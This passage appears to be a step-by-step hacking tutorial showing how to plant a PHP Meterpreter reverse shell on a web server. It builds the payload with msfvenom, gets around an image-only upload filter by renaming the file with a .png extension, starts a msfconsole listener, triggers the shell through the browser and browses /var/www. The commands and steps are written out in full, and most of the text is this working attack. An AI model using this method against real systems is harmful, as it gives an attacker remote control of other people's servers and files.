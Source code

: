 
     msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.22 LPORT=4444 -f raw > Desktop/phpshell.php

Let's break it down - 

 

 - **msfvenom** - the software we use
 - **-p php/meterpreter/reverse_tcp** - the payload we want to use
 - **LHOST 192.168.1.22** - our host to send the information to.
 - **LPORT 4444** - the port we want to work on
 - **-f raw** - the file format we want
 - **> Desktop/phpshell.php** - where we want to save the file and the name of it
 
 ![Msfvenom](https://i.imgur.com/7Xx0Q4z.png)
And now go upload the file
![Upload the File](https://i.imgur.com/yg3sz7B.png)

![Broswe File](https://i.imgur.com/AZgXWWc.png)
Go to Desktop -> and choose phpshell.php
![Upload File](https://i.imgur.com/JCrZQgX.png)
click upload.
We got an error because the file extensions is php and only

 - png
 - jpg
 - gif

are allowed.
So, there are some options to fix this, the easy one (if its work) is just add the png extension to the end of the file.
![Change The Extension](https://i.imgur.com/43sEjFx.png)
Let's try upload it again now.
![Uploading again](https://i.imgur.com/9Vw19tK.png)
And... it's done.
![Uploaded](https://i.imgur.com/a9JgFE1.png)
Now we want to start listening to this port, so we open ***msfconsole***.

    msfconsole
and update our settings

    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set lhost 192.168.1.22
    set lport 4444
    exploit

![Start Listening](https://i.imgur.com/LZGtCkq.png)
and now we are start listening.
Open the location of the file in ***FireFox*** (in Uploads folder).
![File Location](https://i.imgur.com/yRvQj02.png)
And now we can see connection in the ***msfconsole***
![New Connection](https://i.imgur.com/RNO1TUK.png)
And start digging in the files, in the folder /var/www 

